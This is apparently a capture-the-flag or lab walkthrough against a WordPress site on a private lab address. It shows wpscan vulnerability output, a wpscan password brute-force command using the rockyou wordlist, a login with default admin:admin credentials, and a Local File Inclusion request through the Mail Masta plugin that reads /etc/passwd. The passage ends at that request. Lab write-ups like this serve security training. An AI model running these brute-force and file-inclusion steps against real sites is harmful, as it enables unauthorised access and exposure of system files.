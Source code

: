 ```
[!] 15 vulnerabilities identified from the version number

[!] Title: WordPress 2.9-4.7 - Authenticated Cross-Site scripting (XSS) in update-core.php
    Reference: https://wpvulndb.com/vulnerabilities/8716
    Reference: https://github.com/WordPress/WordPress/blob/c9ea1de1441bb3bda133bf72d513ca9de66566c2/wp-admin/update-core.php
    Reference: https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5488
[i] Fixed in: 3.9.15

...

[+] Enumerating plugins from passive detection ...
[+] No plugins found

[+] Finished: Wed Jul 12 19:48:38 2017
[+] Requests Done: 48
[+] Memory used: 16.805 MB
[+] Elapsed time: 00:00:01

```

While there are numerous vulnerabilities identified, most require authentication.

We can also use wpscan to attempt to brute force credentials for us:
```
wpscan --url http://192.168.1.25/wordpress --wordlist /usr/share/wordlists/rockyou.txt --username admin --threads 20
```

Before we do that though, we should verify that the site is not using multi-factor authentication that would get a brute force attack blocked.

Attempting to login to ```/wordpress/wp-login.php``` we try ```admin:admin``` and score an easy win.

Reviewing the installed plugins, we see that 'Mail Masta' is installed.

# 3. Exploitation

## Local File Inclusion (LFI)
```
Description: Mail Masta is email marketing plugin for Wordpress.
```

Since WordPress plugins are often less secure than WordPress core, and it is essentially the only plugin that was installed (Akismet is part of the default configuration, so does not really count), we search for Mail Masta vulnerabiltiies and find a [Local File Inclusion](https://www.exploit-db.com/exploits/40290/) vulnerability.

This seems promising as it may get us a shell. If not, we can use our admin credentials in WordPress to take care of that bit. Starting with the token LFI test, we try to grab the password file:
```
http://192.168.1.25/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_end.php?pl=/etc/passwd
```
